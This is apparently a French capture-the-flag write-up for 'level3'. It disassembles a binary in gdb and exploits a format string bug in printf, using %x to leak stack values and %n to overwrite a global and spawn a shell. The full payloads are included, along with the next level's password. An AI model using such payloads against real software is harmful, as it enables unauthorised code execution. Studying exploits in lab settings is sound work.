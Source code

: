 # Level3

On observe un exécutable à la racine : `level3`

```shell
$ ./level3
Hello World
Hello World
```

On cherche donc à comprendre ce que fait l'exécutable

```shell
$ gdb level3 -q
Reading symbols from /home/user/level3/level3...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:      push   ebp
   0x0804851b <+1>:      mov    ebp,esp
   0x0804851d <+3>:      and    esp,0xfffffff0
   0x08048520 <+6>:      call   0x80484a4 <v>
   0x08048525 <+11>:     leave
   0x08048526 <+12>:     ret
End of assembler dump.
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:      push   ebp
   0x080484a5 <+1>:      mov    ebp,esp
   0x080484a7 <+3>:      sub    esp,0x218
   0x080484ad <+9>:      mov    eax,ds:0x8049860
   0x080484b2 <+14>:     mov    DWORD PTR [esp+0x8],eax
   0x080484b6 <+18>:     mov    DWORD PTR [esp+0x4],0x200
   0x080484be <+26>:     lea    eax,[ebp-0x208]
   0x080484c4 <+32>:     mov    DWORD PTR [esp],eax
   0x080484c7 <+35>:     call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:     lea    eax,[ebp-0x208]
   0x080484d2 <+46>:     mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:     call   0x8048390 <printf@plt>
   0x080484da <+54>:     mov    eax,ds:0x804988c
   0x080484df <+59>:     cmp    eax,0x40
   0x080484e2 <+62>:     jne    0x8048518 <v+116>
   0x080484e4 <+64>:     mov    eax,ds:0x8049880
   0x080484e9 <+69>:     mov    edx,eax
   0x080484eb <+71>:     mov    eax,0x8048600
   0x080484f0 <+76>:     mov    DWORD PTR [esp+0xc],edx
   0x080484f4 <+80>:     mov    DWORD PTR [esp+0x8],0xc
   0x080484fc <+88>:     mov    DWORD PTR [esp+0x4],0x1
   0x08048504 <+96>:     mov    DWORD PTR [esp],eax
   0x08048507 <+99>:     call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:    mov    DWORD PTR [esp],0x804860d
   0x08048513 <+111>:    call   0x80483c0 <system@plt>
   0x08048518 <+116>:    leave
   0x08048519 <+117>:    ret
End of assembler dump.
```

On va utiliser `Cutter` pour avoir une idée plus claire de `level2`

```shell
$ scp -P 4242 -r level3@192.168.56.102:/home/user/level3/level3 .

$ ./Cutter-v2.1.2-Linux-x86_64.AppImage level3
```

_résultat sauvegardé dans [source.md](source.md)_

On remarque que la fonction `v` compare la valeur de `m` a `64`

On regarde de la valeur de `m` juste avant la comparaison

```shell
(gdb) set disassembly-flavor intel
(gdb) break *v+59
Breakpoint 1 at 0x80484df
(gdb) run <<< "Hello World"
Starting program: /home/user/level3/level3 <<< "Hello World"
Hello World

Breakpoint 1, 0x080484df in v ()
(gdb) i r eax
eax            0x0    0
```

On remarque aussi que la fonction `v` fait appel à `printf` en utilisant notre `input` directement en paramètre. Utiliser `printf` de cette façon expose aux failles de types `Format String`. Nous pouvons le vérifier maintenant :

```shell
$ python -c 'print "AAAA %.8x %.8x %.8x %.8x"' | ./level3
AAAA 00000200 b7fd1ac0 b7ff37d0 41414141
```

Puisque printf est mal utilisé, les `%` de la chaine que nous envoyons sont traités comme des formateurs et printf va chercher à les remplir. En l'absence de valeurs définies, `%x` nous affiche ici le premier block dans la stack puis le suivant et ainsi de suite. Nous retombons sur nos `AAAA` avec `41414141`

L'adresse de `m` est `0x804988c`. Nous pouvons donc la mettre en memoire et la retrouver grace à `%x`

```shell
$ python -c 'print "\x8c\x98\x04\x08 %4$.8x"' | ./level3
� 0804988c
```

Nous allons maintenant utiliser `%n` a la place de `%x` qui nous permet non pas d'afficher l'adresse lue mais d'y enregistrer le nombre de caractères affichés par printf. Essayons de changer notre `%x` en `%n` et afficher la valeur de `m`

```shell
(gdb) set disassembly-flavor intel
(gdb) break *v+59
Breakpoint 1 at 0x80484df
(gdb) run <<< $(python -c 'print "\x8c\x98\x04\x08%4$n"')
Starting program: /home/user/level3/level3 <<< $(python -c 'print "\x8c\x98\x04\x08%4$n"')
��

Breakpoint 1, 0x080484df in v ()
(gdb) i r eax
eax            0x4   4
```

Grâce au `%n` du printf nous avons réussi a écrire le nombre `4` a l'adresse de `m` . Plus qu'à mettre cette valeur à 64 :

```shell
(gdb) run <<< $(python -c 'print "\x8c\x98\x04\x08" + "A"*60 + "%4$n"')
Starting program: /home/user/level3/level3 <<< $(python -c 'print "\x8c\x98\x04\x08" + "A"*60 + "%4$n"')
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x080484df in v ()
(gdb) i r eax
eax            0x40    64
```

Et voilà !

```shell
$ (python -c 'print "\x8c\x98\x04\x08" + "A"*60 + "%4$n"'; cat) | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
Ctrl+D
```
